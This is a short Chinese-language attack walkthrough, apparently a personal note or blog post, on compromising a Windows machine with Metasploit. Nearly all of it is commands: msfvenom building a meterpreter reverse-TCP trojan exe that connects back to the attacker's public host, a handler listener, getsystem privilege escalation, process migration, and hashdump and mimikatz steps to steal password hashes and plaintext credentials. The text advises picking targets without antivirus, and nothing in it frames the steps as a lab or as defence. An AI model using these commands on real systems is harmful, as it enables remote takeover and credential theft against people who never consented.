     过程我就不说了，大概思路就是msf生成一个exe木马反弹到公网主机
    然后最好是目标没有杀软（AV）先试试meterpreter自带的提权不行的话就换其他exp然后读hash
    破解hash就ok，如果读不出hash就进行进程迁移。
    
    具体如下
    1.msfvenom -p windows/meterpreter/reverse_tcp LHOST=公网ip LPORT=5200 -f exe -o msf.exe
      msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=公网ip LPORT=5200 -f exe -o x64.exe
    2.use exploit/multi/handler
      set payload windows/meterpreter/reverse_tcp
      set lport 5200
      set lhost 外网IP（nat关系看情况）
      exploit     
    3.shell（network service权限）执行 最好system权限执行
    4.getsystem —> getuid
    5.hashdump (如果不行则换进程)
      migrate pid —> hashdump
    6.load mimikatz  mimikatz_command -f samdump::hashes
      mimikatz_command -f sekurlsa::searchPasswords
    
